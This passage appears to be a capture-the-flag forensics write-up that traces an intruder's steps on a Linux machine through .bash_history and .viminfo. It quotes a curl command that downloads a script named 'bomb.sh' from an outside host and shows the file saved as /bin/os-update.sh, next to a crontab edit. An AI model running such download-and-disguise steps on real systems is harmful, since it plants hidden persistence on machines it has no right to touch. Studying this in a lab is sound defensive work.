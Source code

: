```bash


root@ip-10-10-26-7:/home/it-admin# sudo cat .bash_history
whoami
curl 10.10.158.38:8080/bomb.sh --output bomb.sh
ls
ls -la
cd ~/
curl 10.10.158.38:8080/bomb.sh --output bomb.sh
sudo vi bomb.sh
ls
rm bomb.sh
sudo nano /etc/crontab
exit
```


Answer: `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`

### Task 3.2 The file was renamed and moved to a different directory. What is the full path of this file now?

Now we have to check the `vim-history`. We use `.viminfo` in the `it-admin` profile:


```bash
root@ip-10-10-26-7:/home/it-admin# cat .viminfo
# This viminfo file was generated by Vim 8.0.
# You may edit it if you're careful!

# Viminfo version
|1,4

# Value of 'encoding' when this file was written
*encoding=utf-8


# hlsearch on (H) or off (h):
~h
# Command Line History (newest to oldest):
:q!
|2,0,1672208992,,"q!"
:saveas /bin/os-update.sh
|2,0,1672208983,,"saveas /bin/os-update.sh"
```


Answer: `/bin/os-update.sh`


### Task 3.3 When was the file from the previous question last modified? (Format: Month Day HH:MM)

This is not difficult - we can use the `ls -l` command to display permssions, date of creation and modification:
We know from last question, that the file was placed in `/bin/os-update.sh`
